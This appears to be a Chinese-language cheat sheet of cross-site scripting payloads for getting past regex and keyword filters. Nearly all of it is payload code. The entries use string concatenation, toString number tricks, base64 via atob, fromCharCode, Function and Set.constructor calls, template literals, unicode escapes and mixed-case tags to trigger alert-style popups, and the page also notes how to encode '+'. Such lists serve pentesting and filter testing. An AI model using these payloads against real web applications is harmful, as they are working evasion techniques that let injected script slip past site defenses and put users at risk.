 # 绕过

奇怪的payload，也许可以用来绕过一些正则

- `Window.alert?.()` = `alert?.(1)`
- `(window?.alert)`xss`` = `(alert)`xss``

## 绕过 | 其他弹窗关键词

```python
<script>prompt(1)</script>
<script>confirm(1)</script>
<script>console.log(1)</script>

<script>self['al'+'ert'](1)</script>
<script>parent['al'+'ert'](1)</script>
<script>frames['al'+'ert'](1)</script>
<script>window['al'+'ert'](1)</script>

然后就自己变通：
<script>self['al'+'ert']`xss`</script>

降维打击：
<script>top[11189117..toString(32)](1);</script>   
//parseInt('alert',30)
//8680439..toString(30)
<script>xxx%27]);Function(atob`YWxlcnQoInhzcyIp`)()//</script>
Function('ale'+'rt(1)')();
new Function`alert`6``;


"+" 号可能需要编码为 %2B

setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`alert(14)```;

eval('ale'+'rt(0)');
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 50, 51, 41))</script>

top['ale'+'rt']()
a\u006cert() 
alert``
top['a\u006ce'+'rt']``
```

## 绕过 ｜ 双引号

```python
alert(/xss/)  // 正则表达式
<script>xxx%27]);Function(atob`YWxlcnQoInhzcyIp`)()//</script>  // 模板字符串
<script>top[11189117..toString(32)](1);</script>   // 函数计算
new Function`alert`6``;
Set.constructor`alert(14)```;
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 50, 51, 41))</script>
<ScRiPt/3>\u0061lert(2)</ScRiPt>
```
